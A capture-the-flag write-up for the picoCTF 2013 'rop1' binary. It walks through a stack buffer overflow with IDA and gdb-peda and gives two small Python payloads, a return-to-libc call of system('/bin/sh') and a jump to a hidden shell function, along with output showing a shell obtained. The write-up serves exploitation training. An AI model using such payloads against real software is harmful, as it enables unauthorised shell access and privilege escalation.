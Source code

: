 ### S0lv3d by H4yicl3

First i download source here :https://2013.picoctf.com/problems/rop1-fa6168f4d8eba0eb
then i use IDA to analysis the code
```c
int be_nice_to_people()			//<----function make us have permission run of suid
{
  __gid_t v0; // ST1C_4@1

  v0 = getegid();
  return setresgid(v0, v0, v0);
}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
ssize_t vulnerable_function()	
{
  char buf; // [sp+10h] [bp-88h]@1	//<----- overflow this 

  return read(0, &buf, 0x100u);
}
```

the second we need to find eip(return address)
```
-00000088 buf             db ?
+00000004  r              db 4 dup(?)
```
So the offset = 0x88+0x4 =0x8c(hex) = 140

the third we use gdb-peda to checksec
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED				<----- the flag NX turned on
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

So we can't excute in stack
So we need return to libc to excute system("/bin/sh")
```
gdb-peda$ b *main
gdb-peda$ r
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0xf7e4a310 <system>		<---- we have address of system
gdb-peda$ find /bin/sh			
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f6a84c ("/bin/sh")	<----- we have address of /bin/sh
gdb-peda$ 
```

finaly, we write the python script look like:
```python
padding = "A"*140
system_address = "\x10\xa3\xe4\xf7"
return_after_system = "junk"
binsh_address = "\x4c\xa8\xf6\xf7"
print padding + system_address + return_after_system + binsh_address
```

try to run it
```
(python rop1.py;cat)|./rop1 
whoami
hayicle
```

well done!!

but i see 
```
ROP is a classic technique for getting around address randomization and non-executable memory. 
This sequence will teach you the basics.
```

````
The main difference between the overflow problems and ROP is that ROP type problems have NX/ASLR
enabled, and sometimes other protections. This means that libc and stack addresses are random, and 
that no memory is simultaneously writeable and executables.RIP shellcode.

(link from :https://github.com/ctfs/write-ups-2013/tree/master/pico-ctf-2013/rop-1)
```
															
so we need this function not_called
```asm
.text:080484A4 not_called      proc near
.text:080484A4                 push    ebp											  <--- call here
.text:080484A5                 mov     ebp, esp
.text:080484A7                 sub     esp, 18h
.text:080484AA                 mov     dword ptr [esp], offset command ; "/bin/bash"  <--- this doesn't random
.text:080484B1                 call    _system
.text:080484B6                 leave
.text:080484B7                 retn
.text:080484B7 not_called      endp
```

so we need redirect to it !!
now the python script look like
```python
padding = "A"*140
bin_bash = "\xa4\x84\x04\x08"
print padding+bin_bash
```

try run it
```
(python rop1.py ;cat )|./rop1
whoami
hayicle
```

My bad :))